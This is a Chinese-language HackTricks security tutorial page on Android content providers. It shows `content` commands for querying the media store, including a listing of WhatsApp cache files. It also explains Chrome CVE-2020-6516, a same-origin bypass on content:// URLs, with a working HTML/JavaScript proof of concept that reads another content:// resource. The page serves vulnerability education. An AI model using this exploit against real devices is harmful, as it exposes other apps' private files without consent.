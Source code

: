 <details>

<summary><strong>从零开始学习AWS黑客技术直至成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>


要试验内容提供者，可以在Android设备上使用`content`命令。不一定需要根访问权限。例如，要查看由媒体存储管理的文件列表，可以执行以下命令：
```bash
$ content query --uri content://media/external/file
```
为了使输出更加人性化，可以将显示的列限制为每个索引文件的标识符和路径。
```bash
$ content query --uri content://media/external/file --projection _id,_data
```
媒体提供者存在于它们自己的私有命名空间中。如上例所示，要访问内容提供者，应指定相应的`content://` URI。通常，可以通过查看应用程序清单（如果内容提供者由应用程序导出）或Android框架的源代码来恢复可以访问提供者的路径信息。

有趣的是，在Android设备上，Chrome支持通过`content://`方案访问内容提供者。此功能允许浏览器访问由第三方应用程序导出的资源（例如照片、文档等）。为了验证这一点，可以在媒体存储中插入一个自定义条目，然后使用浏览器访问它：
```bash
$ cd /sdcard
$ echo "Hello, world!" > test.txt
$ content insert --uri content://media/external/file \
--bind _data:s:/storage/emulated/0/test.txt \
--bind mime_type:s:text/plain
```
要发现新插入文件的标识符：
```bash
$ content query --uri content://media/external/file \
--projection _id,_data | grep test.txt
Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```
```markdown
要在Chrome中查看文件，可以使用如下图所示的URL。请注意文件标识符747（如上所发现），它被用作URL的后缀。

![Chrome "你好，世界！"](https://census-labs.com/media/whatsapp-screenshot-hello-world.png)

例如，您可以列出与WhatsApp相关的所有文件：
```
```bash
$ content query --uri content://media/external/file --projection _id,_data | grep -i whatsapp
...

Row: 82 _id=58, _data=/storage/emulated/0/Android/data/com.whatsapp/cache/SSLSessionCache
Row: 83 _id=705, _data=/storage/emulated/0/Android/data/com.whatsapp/cache/SSLSessionCache/157.240.9.53.443
Row: 84 _id=239, _data=/storage/emulated/0/Android/data/com.whatsapp/cache/SSLSessionCache/crashlogs.whatsapp.net.443
Row: 85 _id=240, _data=/storage/emulated/0/Android/data/com.whatsapp/cache/SSLSessionCache/pps.whatsapp.net.443
Row: 86 _id=90, _data=/storage/emulated/0/Android/data/com.whatsapp/cache/SSLSessionCache/static.whatsapp.net.443
Row: 87 _id=706, _data=/storage/emulated/0/Android/data/com.whatsapp/cache/SSLSessionCache/v.whatsapp.net.443
Row: 88 _id=89, _data=/storage/emulated/0/Android/data/com.whatsapp/cache/SSLSessionCache/www.whatsapp.com.443
...
```
## Chrome CVE-2020-6516 同源策略绕过 <a href="#cve-2020-6516" id="cve-2020-6516"></a>

浏览器中的 _同源策略_ (SOP) \[[12](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin\_policy)] 规定，URL A的Javascript内容只能访问URL B的内容，如果A和B的以下URL属性保持相同：

* 协议，例如 `https` 对比 `http`
* 域名，例如 `www.example1.com` 对比 `www.example2.com`
* 端口，例如 `www.example1.com:8080` 对比 `www.example1.com:8443`

当然，上述规则有例外，但通常情况下，`https://www.example1.com` 的资源（例如一段Javascript代码）不能访问 `https://www.example2.com` 上的资源的DOM，因为这会引入严重的信息泄露。**除非跨源资源共享（CORS）策略明确允许，否则网页资源不应该能绕过SOP规则。**

需要注意的是，Chrome认为 `content://` 是一个 _本地方案_，就像 `file://` 一样。在这种情况下，SOP规则更加严格，因为每个本地方案URL都被视为一个独立的源。例如，**file:///tmp/test.html** 中的Javascript代码不应该能够访问 **file:///tmp/test2.html** 的内容，或者说任何其他文件系统上的文件。**因此，根据SOP规则，通过 `content://` 加载的资源不应该能够访问任何其他 `content://` 资源。** 嗯，Chrome的CVE-2020-6516漏洞为这条规则创造了一个“例外”。

CVE-2020-6516 \[[03](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-6516)] 是一个在通过 `content://` URL加载的资源上的SOP绕过。**例如，从 `content://com.example.provider/test.html` 加载的HTML文档中运行的Javascript代码，可以加载并访问通过 `content://` URL加载的任何其他资源。** 这是一个严重的漏洞，特别是在运行Android 9或之前版本的Android设备上。在这些设备上没有实现作用域存储 \[[13](https://developer.android.com/about/versions/10/privacy/changes#scoped-storage)]，因此，位于 **/sdcard** 下的应用特定数据，更有趣的是位于 **/sdcard/Android** 下的数据，可以通过系统的媒体存储内容提供者访问。

概念验证相当直接。一个使用 `XMLHttpRequest` 访问任意 `content://` URLs的HTML文档被上传到 **/sdcard** 下。然后它被添加到媒体存储中，并以类似于前面展示的示例的方式在Chrome中渲染。为了演示目的，可以尝试加载 `content://media/external/file/747`，实际上，这是"Hello, world!"示例的媒体存储URL。令人惊讶的是，运行在HTML文档源中的Javascript代码将获取并显示 **test.txt** 的内容。
```markup
<html>
<head>
<title>PoC</title>
<script type="text/javascript">
function poc()
{
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function()
{
if(this.readyState == 4)
{
if(this.status == 200 || this.status == 0)
{
alert(xhr.response);
}
}
}

xhr.open("GET", "content://media/external/file/747");
xhr.send();
}
</script>
</head>
<body onload="poc()"></body>
</html>
```
**从这篇文章中获取的信息：** [**https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/**](https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/)


<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客技术！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
